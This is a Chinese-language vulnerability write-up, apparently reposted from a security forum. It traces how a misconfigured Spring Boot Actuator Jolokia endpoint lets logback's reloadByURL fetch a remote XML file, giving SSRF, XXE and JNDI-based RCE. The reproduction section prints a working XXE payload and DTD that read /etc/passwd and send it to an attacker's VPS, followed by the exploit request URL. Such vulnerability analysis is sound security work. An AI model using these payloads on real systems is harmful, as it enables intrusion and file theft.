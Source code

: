 # Spring Boot Actuator jolokia 配置不当导致的远程文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3131](https://www.zhihuifly.com/t/topic/3131)

# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。
***前提条件***
**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.0-sec.org:9090/jolokia/list 
```

![4140320665.png](img/f20f5c7e823f0d037b8142c60dd0f210.png)

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![image](img/bf0806e61a0a6fc126b4d00804252268.png)

只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里

![image](img/946a6fbf3f2505d41410886b6fe26bb2.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到
可以根据 **path** 节点新建 **JmxRequest** 对象
大致如下图所示，有这么些类别可以指定

![image](img/870196513b650678e707633837cb0aa0.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![image](img/9b921a5dd7571988b5f80c712698d79e.png)

跟进 initObjectName 函数，如下

![image](img/e16c1ee02ab43085ad3bf65530c5e796.png)

如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![image](img/b9b755dff799e11d97900b0991463ace.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![image](img/113fcb5b6cf0b539664c1c7458d01328.png)

如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![image](img/e9a10bbdfe253acc034611e4dc4e2437.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![image](img/994933184ba9de2206bd6590045bc239.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![image](img/90246ad1a06b2fd4f154015b453c746e.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：

![image](img/fb1cc522e02a051a423f734adbed5021.png)

继续跟进上图中的红色方框如下

![image](img/96808491a62e3e896c4d318c109108b1.png)

如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![image](img/6f9a4577dc67626e2f515e0dd0edba44.png)

很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![image](img/49173cddf7d8b37f247b4bb2eeca7f5a.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥

![image](img/50d28afbb1ec410a6f70bfa71d91af76.png)

其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

*   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a> 
```

*   在VPS上创建ian.dtd

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>"> 
```

![2.png](img/d67da368e964591ed55f7cd1978e5e7e.png)

*   开启http服务

```
python -m SimpleHTTPServer 80 
```

*   远程访问logback.xml文件

```
https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml 
```

![1.png](img/c26997d908ed601561d2d89cd97afa7f.png)

*   可以看到服务器上也返回了响应日志
    ![3.png](img/1d88a7a192f0a76444971681aade5832.png)

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/